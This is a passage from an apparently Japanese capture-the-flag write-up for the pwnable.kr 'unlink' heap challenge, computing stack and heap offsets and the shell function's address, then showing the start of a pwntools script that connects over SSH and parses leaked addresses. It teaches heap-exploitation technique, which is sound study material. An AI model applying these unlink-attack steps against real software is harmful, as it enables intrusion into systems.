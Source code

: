 これらの差分は**0x14 - 0x04 = 0x10**となる。
よってargcのアドレスはstr_Aのスタックアドレスに0x10を足した値となる。

### str_A->buf+4のアドレス
現在のheap領域を考えると、以下のようになる。

![heap_reg.png](heap_reg.png)

よってstr_A->buf+4はstr_Aのヒープアドレスに0xcを足した値となる

### shellのアドレス
objdumpより0x080484eb 

```bash
$ objdump -d unlink | grep shell
080484eb <shell>:
```


# エクスプロイト
今回はunlinkの標準出力からstack, and heap addrを取得する。
実際のプログラムは以下。

```python
from pwn import *
from struct import pack
import re

shell = ssh("unlink", "pwnable.kr", 2222, "guest")
conn = shell.process(["/home/unlink/unlink"])
data = conn.recvuntil("get shell!\n").decode("ascii").replace("\n",";")
print(data)

# get stack addr and heap addr with regular expression
m = re.search('stack address leak: (.*);.*heap address leak: ([^;]+);.*', data)
stackaddr = int(m.group(1), 16)
heapaddr = int(m.group(2), 16)
print("stack addr = " + hex(stackaddr))
print("heap addr = " + hex(heapaddr))

```